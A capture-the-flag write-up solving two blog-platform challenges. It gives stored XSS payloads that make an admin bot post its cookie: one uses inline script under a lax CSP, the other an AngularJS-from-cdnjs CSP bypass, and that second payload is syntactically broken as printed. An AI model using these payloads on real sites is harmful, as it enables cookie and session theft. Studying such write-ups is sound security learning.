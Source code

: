 # Blogpost
by Halogen
> Jaga created an internal social media platform for the company, can you leak anyone's information?
## Provided Files
[Link under assets](./assets/)
## Solution
First step, look through the code. This is where we observe `bot.js`, a curious little thing that will be the downfall of Jaga's social media platform. This script basically logs in as admin, sets the flag as a cookie and then visit our blog. How wonderful, sounds like a Cross Site Scripting attack (XSS).

Looking around `index.js` we see their Content Source Policy (CSP), dictating the source of their code.
```js
res.setHeader(
  'Content-Security-Policy',
  "default-src 'self'; script-src 'self' 'unsafe-inline' https://cdnjs.cloudflare.com; style-src-elem 'self' https://fonts.googleapis.com; font-src 'self' https://fonts.gstatic.com; connect-src 'self';"
);
```
Very intriguing, espectially that `unsafe-inline` portion. This means we can inline scripts `<script>alert(1);</script>` as such and it would run too. But where can we place such malicious scripts...🤔What about as a blog post (the very name of the challenge!)?
Lo and behold, it works!

So from here, we just simply set up a webhook and have our script make a request to it with the cookies as the body. The webhook will pick up the request, and see the flag cookie in the body. Ez right... except not really. The CSP above disables us from sending requests to other websites (`default-src: self`) and only allows requests to self. What do we do?

A hard thonking later, we realised that if we can post blogs, so can the admin! So we can make the admin post the cookies! Going to `templates/post.html` we see that posting a blog is just a post request. So our final blog to post is as below
```html
Title: Anything you want
Body:
<script>
var xhr = new XMLHttpRequest();
xhr.open("POST", "/post", true);
xhr.setRequestHeader("Content-Type", "application/json");
var data = JSON.stringify({
	"title": "Wtv",
	"content": document.cookie	
})
xhr.send(data);
</script>
```
And boom, the admin makes a post unwillingly with his flag for all to see
Flag: `STF22{s1mpl3_p0st_xSs_:)}`

# Blogpost 2 (Buffing Blogpost)
by Halogen
> Look out for my blog posts, again!!
## Solution
Relooking through the code, we see the exact code again, line for line. However, there is one small change. Their CSP is set to `'unsafe-eval'` instead of `'unsafe-inline'`. This is problamatic, since our script injection doesn't work anymore 😢.

However, there is still the word 'unsafe' in it, so we found [Google's CSP checker](https://csp-evaluator.withgoogle.com/) and checked their CSP. It seems that including "https://cdnjs.cloudflare.com" has a severe vulnerability where you can include Angular Libraries to bypass CSP. So let's try that!

We follow [Hacktricks CSP Bypass Tutorial](https://book.hacktricks.xyz/pentesting-web/content-security-policy-csp-bypass) to perform our XSS. First, we include the angular library in the title, and then inject a funny Angular Constructor into a div. This gives us access to the website's eval function, which will eval anything including our script.

<u>Payload</u>
```html
Title: Anything you want
Body:
<script>
var xhr = new XMLHttpRequest();
xhr.open("POST", "/post", true);
xhr.setRequestHeader("Content-Type", "application/json");
var data = JSON.stringify({
	"title": "<script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.4.6/angular.js"></script>",
	"content": <div ng-app> {{'a'.constructor.prototype.charAt=[].join;$eval('x=1} } };alert(1);//');}} </div>
})
xhr.send(data);
</script>
```

And wow, it runs and we get an alert on visiting our blog. Now we just simply replace `alert(1)` with our code from above and the admin gives us the flag yet again in the form of a post.

flag: `STF22{cl0uDfl4r3!!_@nd_@ngu1ar_ar3_de_b35+}`